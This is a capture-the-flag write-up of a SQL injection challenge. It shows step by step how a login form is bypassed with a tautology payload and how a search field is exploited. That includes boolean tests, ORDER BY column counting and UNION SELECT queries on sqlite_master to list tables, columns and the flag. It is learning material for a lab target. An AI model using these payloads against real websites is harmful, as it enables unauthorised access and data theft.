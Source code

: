 ## CHALLENGE: MORE SQLi

<img src ="img/img1.png">

In here, we see the log in page,

<img src ="img/img2.png">

so I think we can use the single quote (') to detect the login form does have SQLi or not.
And we recieved this message

<img src ="img/detect.png">

-> The login page contains SQLi. Use the payload: `***1' or 1=1--***` to bypass the login form.

<img src = "img/img3.png">

And welcome to the page :))))

<img src = "img/welcome.png">

But I don't see the flag anywhere, so I decide to test the search field.
With the payload:  **Algiers' AND 1=1--** we can see the result still have Algiers.

<img src = "img/img4.png">

And with payload: **Algiers' AND 1=2--** the result don't retune anything.

<img src = "img/img5.png">

-> The search field contains SQLi.
Now we should detect how many column. And with my experience, how many columns you see appear, it is most likely the number of columns you need to find.

<img src = "img/img6.png">

In here, we see that it appear 3 columns, so maybe the number of columns could be 3.
I use the payload: **Algiers' order by 4--** and no result returns -> The column number < 4.

<img src = "img/img7.png">

And with payload: **Algiers' order by 3--** the result returns Algiers -> 3 columns.

<img src = "img/img8.png">

And now, we will extract the information.
In the first time, I think it is the Oracle and try so much payload :)))) And you know what, the hint already said it's sqlite :))) 

I search on github, and found the sqlite cheat sheet injection, base on that, we will get whatever you want
[Payload Page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).
The first thing we extract is how many tables and name of them.
So I use the payload: **Algiers' UNION SELECT (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),NULL, NULL --** 

<img src = "img/img10.png">

And we can see the list tables in the database. Now we want to extract columns in each tables.
the payload: **SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'** help us to do this and we have the payload like this: **Algiers' UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hints'),NULL, NULL --**
The above payload will extract the columns of **hints** table.

<img src = "img/img11.png">

With a little bit logic, we can guest that the **hints** table has 2 columns ID and info.

You can repeat it until you see the **flag** column.
And you want to extract the value of the column, use this payload: **Algiers' UNION SELECT flag,NULL, NULL from <name_of_the_table> --**

<img src ="img/flag.png">

Congrats, you found the flaggggg.

THANK YOU FOR LEARNING GUYS.
PATIENCE IS THE KEY, SO KEEP TRYING EVERYDAY. LUV U <3

